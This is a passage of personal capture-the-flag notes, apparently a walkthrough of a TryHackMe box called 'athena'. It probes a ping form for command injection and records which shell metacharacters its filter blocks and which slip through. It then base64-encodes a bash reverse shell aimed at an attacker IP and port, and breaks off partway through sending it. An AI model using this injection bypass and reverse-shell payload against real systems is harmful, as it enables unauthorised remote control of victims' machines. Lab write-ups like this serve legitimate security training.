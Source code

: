 

![[Images/Pasted image 20250726194834.png]]

localhost gives
```sh
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.019 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.037 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.049 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.032 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3055ms
rtt min/avg/max/mdev = 0.019/0.034/0.049/0.010 ms
```

localhost;echo hello gives
```sh
attempt hacking
```

localhost && echo hello - attempt hacking
| is also blocked
$() and ´ is not blocked

let's base64 encode a shell as & is in there

```sh
┌──(fixit42㉿kali)-[~/boxes/thm/athena]
└─$ echo -n /bin/bash -c 'bash -i >& /dev/tcp/10.21.31.111/443 0>&1' | base64 -w0 
L2Jpbi9iYXNoIC1jIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMjEuMzEuMTExLzQ0MyAwPiYx
```

now we'll send:
echo L2Jpbi9iYXNoIC1jIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMjEuMzEuMTExLzQ0MyAwPiYx 